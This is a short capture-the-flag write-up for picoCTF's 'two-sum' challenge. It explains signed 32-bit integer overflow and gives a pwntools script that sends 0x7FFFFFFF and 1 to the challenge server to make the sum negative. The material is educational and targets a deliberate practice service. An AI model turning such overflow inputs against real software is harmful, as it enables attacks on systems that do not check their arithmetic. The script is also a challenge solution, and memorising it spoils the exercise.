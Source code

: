 # two-sum


This challenge from [picoCTF](https://play.picoctf.org/practice/challenge/382) asks us to enter two positive numbers that will produce a negative integer:

```
❯ nc saturn.picoctf.net 52577
n1 > n1 + n2 OR n2 > n1 + n2
What two positive numbers can make this possible:
1 2
You entered 1 and 2
No overflow
```

It is a basic overflow where we have two signed integer, so we need to produce a negative integer from them:


Here an example of an overflow with addition on signed integers.
![alt-text](https://i.imgur.com/T742Xbm.png)


Looking at the source code we have this:

```c
static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}
```

So we know that a b and our result are integers (4bytes).

We can then take the maximum possible positive value for a signed integer `0x7FFFFFFF` and add 1 to overflow:

```py
from pwn import *

a = 0x7FFFFFFF 
b = 1

payload = '{} {}'.format(a, b)
r = remote('saturn.picoctf.net', 52577)

r.recvuntil(b'What two positive numbers can make this possible:')
r.sendline(payload.encode())
r.interactive()
```
